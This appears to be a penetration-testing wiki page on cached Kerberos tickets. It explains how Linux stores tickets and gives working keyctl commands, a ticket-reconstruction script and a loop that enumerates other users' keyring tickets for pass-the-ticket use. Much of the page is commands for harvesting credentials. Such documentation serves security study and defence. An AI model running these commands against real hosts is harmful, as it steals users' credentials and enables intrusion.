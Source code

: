 ```yaml
---
authors: 'Hakumarachi, ShutdownRepo'
category: ad
---
```


# 🛠️ Cached Kerberos tickets

## Theory

Kerberos tickets can be cached on systems to allow for faster authentication without requiring users to re-enter credentials. Understanding how these tickets are stored is crucial for both defensive and offensive operations.

### Storage Methods

:::tabs

== UNIX-like

On Linux and other UNIX-like systems, tickets can be stored in 3 different ways:

| Storage     | Description                                                                                                                               |
|-------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| **FILE**    | Stores tickets in files, typically under `/tmp` directory, in the format `krb5cc_%{uid}`                                                   |
| **KEYRING** | Stores tickets in a dedicated kernel keyring space, only accessible to the ticket owner                                                     | 
| **KCM**     | Stores tickets in an LDAP-like database, typically at `/var/lib/sss/secrets/secrets.ldb` (default when using SSSD)                        |

The storage method is configured via the `default_ccache_name` parameter in `/etc/krb5.conf`, which is readable by all users.

> [!NOTE]
> This configuration can be overridden by files in `/etc/krb5.conf.d/`. When using SSSD, the value is typically set in `/etc/krb5.conf.d/kcm_default_ccache`

== Windows 🛠️

On Windows systems, Kerberos tickets are stored in memory by the Local Security Authority Subsystem Service (LSASS) process.

// TODO: Add more details

:::

## Practice

### From UNIX-like systems

:::tabs

== FILE Storage

Tickets are stored as files in the configured directory (default: `/tmp`). These files can be directly used for [Pass-the-Ticket](../../kerberos/ptt.md) attacks.

== KEYRING Storage

> [!NOTE]
> While root cannot directly read other users' keyring content, they can still access tickets by using `su - $user`

The `keyctl` utility (commonly pre-installed) can be used to read keyring content:

```bash
# Get persistent keyring address
keyctl get_persistent @u

# Show keyring content
keyctl show 30711432
```

It will display the content of the keyring in a readable format.

```
Keyring
  30711432 ---lswrv      0 65534  keyring: _persistent.0
 127492740 --alswrv      0     0   \_ keyring: _krb
 556713767 --alswrv      0     0       \_ user: krb_ccache:primary
1002684101 --alswrv      0     0       \_ keyring: 0
 110355059 --alswrv      0     0           \_ user: __krb5_princ__
 575224320 --als-rv      0     0           \_ big_key: krb5_ccache_conf_data/pa_type/krbtgt\/LAB.LOCAL\@LAB.LOCAL@X-CACHECONF:
 161110247 --als-rv      0     0           \_ big_key: krbtgt/LAB.LOCAL@LAB.LOCAL
 760223933 --alswrv      0     0           \_ user: __krb5_time_offsets__
```

To reconstruct a Kerberos ticket, you need:
1. The `__krb5_princ__` value (in the example above, it's `110355059`)
2. The service key value (the `big_key` value. In the example above, it's `161110247`)

```bash
# Get principal value
keyctl print $PRINCIPALS_ADDRESS

# Get service key
keyctl print $KEY_ADDRESS

The result will be an hexadecimal string, that can be appended to the ticket header to reconstruct the full ticket.

# Reconstruct ticket
HEADER='0504000c00010008ffffffff00000000'
PRINCIPALS=$(keyctl print $PRINCIPALS_ADDRESS | awk -F : '{print $3}')
KEY=$(keyctl print $KEY_ADDRESS | awk -F : '{print $3}')
ticket=$HEADER$PRINCIPALS$KEY

# Save to file
echo "$ticket" | xxd -r -p > ticket.ccache
```

> [!TIP]
> [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can automate this process:
> ```bash
> python3 ccacheExtractor.py keyring --principals $PRINCIPALS --key $KEY
> ```

A domain joined machine can cache lots of tickets from different users. It would be tedious to list them all manually.
To list all available tickets, the `/proc/key-users` file can be used. It's readable by all users and contains the list of all users with persistent keyrings.

```bash
# List all tickets
for uid in $(awk '{print$1}' /proc/key-users | tr -d :); do
    res=$(KRB5CCNAME=KEYRING:persistent:$uid klist 2>&1)
    if [ $? -eq 0 ]; then
        echo -e "\n=== UID $uid ==="
        echo "$res"
    fi
done

# Use a specific ticket
KRB5CCNAME=KEYRING:persistent:$UID
```

> [!SUCCESS]
> [keyringCCacheDumper](https://github.com/Hakumarachi/keyringCCacheDumper) can automatically extract all tickets.

== KCM Storage

KCM stores tickets in an LDB database file, typically only readable by root. [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can be used to extract tickets:

```bash
# Extract all tickets from LDB database
python3 ccacheExtractor.py kcm ./secrets.ldb
```

Extracted tickets can then be used with [Pass-the-cache](../../kerberos/ptc.md) or [Pass-the-tickets](../../kerberos/ptt.md) depending on the ticket type.

### From Windows

// TODO: Add more details

:::
